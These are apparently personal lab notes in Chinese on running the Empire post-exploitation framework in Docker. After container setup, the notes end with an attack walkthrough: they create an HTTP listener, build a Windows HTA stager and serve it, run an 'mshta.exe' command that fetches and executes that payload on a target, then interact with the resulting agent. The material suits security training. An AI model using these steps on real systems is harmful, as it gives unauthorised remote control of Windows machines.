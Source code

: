 创建Empire docker容器

以下操作都处于root权限
启动docker：
systemctl start docker

获取docker里empire的环境镜像：
docker pull empireproject/empire

创建docker容器并命名为empire：
docker create -it -p 7000:7000 --name empire empireproject/empire /bin/bash     **-p 进行pat
搜索docker提供的镜像：
docker search empire（可访问互联网的环境下运行）
//运行 Empire 容器：
//docker run -it bcsecurity/empire
列出已获取镜像：
docker image ls

列出已有容器：
docker ps -a

Empire初始化
//sudo不能忽略
运行empire容器：docker start -i empire
初始化empire：sudo ./setup/reset.sh
输入密码
启动empire：sudo ./empire
提示缺少pefile模块
升级pip再安装pefile 
`wget https://bootstrap.pypa.io/pip/2.7/get-pip.py`
`python get-pip.py`
`ln -s /usr/local/bin/pip2.7 /usr/bin/pip`
`pip install pefile`

`docker network inspect bridge`

清理环境
使用 Docker 时，如果不再需要 Empire，可以清理容器：
docker stop <container_id>
docker rm <container_id>


listeners
uselistener http
set Name http_proxy
set Host http://ip:7000
set Port 7000
execute

usestager windows/hta
set Listener http_proxy
execute

kali:python3 -m http.server

mshta.exe http://ip:8000/aaa.hta

agents
interact xxx
help

usemodule  trollsploit/message
set MsgText "Bye bye"
execute
